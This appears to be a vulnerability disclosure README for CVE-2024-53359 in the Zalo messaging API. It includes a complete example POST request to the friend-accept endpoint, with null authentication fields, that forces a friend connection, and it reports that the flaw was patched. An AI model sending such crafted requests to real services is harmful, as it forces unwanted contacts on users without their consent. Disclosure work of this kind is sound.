 # CVE-2024-53359: Zalo API Vulnerability Allows Adding Friends Without Consent

## Overview
A vulnerability in Zalo (v23.09.01) allows attackers to add friends without user consent by exploiting insecure permissions in the API. Discovered in April 2024, this issue was patched by Zalo on April 15, 2024.

---

## Details

### Affected API
- **Endpoint**: `ACCEPT_FRIEND`  
  **URL**: `https://friend.talk.zing.vn/api/friend/accept`

### Exploit
By sending a crafted POST request to the `ACCEPT_FRIEND` endpoint with specific parameters, attackers could force a friend connection without user approval.  

Example POST request:
```http
POST https://friend.talk.zing.vn/api/friend/accept
Content-Type: application/json

{
  "actiontime": 1,
  "api_key": "NULL",
  "avatarSize": 120,
  "clientType": 1,
  "session_key": "NULL",
  "sign": "NULL",
  "ts": "NULL",
  "userId": 397726729,
  "sig": "NULL"
}
```

If the server returns:
```json
{
  "code": 0
}
```
It means the friend request was successfully accepted.

---

## Impact
- **Type**: Insecure Permissions
- **Effect**: Allows unauthorized friend connections if the attacker's side has your phone number.
- **CVSS Score**: 5.3 (Medium)

---

## Timeline
- **Discovery**: Early April 2024  
- **Fix Released**: April 15, 2024  

---

## Embedded Video
Here is a detailed video explanation of the vulnerability:

<video controls width="800">
  <source src="./videos/video-explanation.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>
---

## Disclaimer
This document is for informational purposes only. Do not exploit this vulnerability.
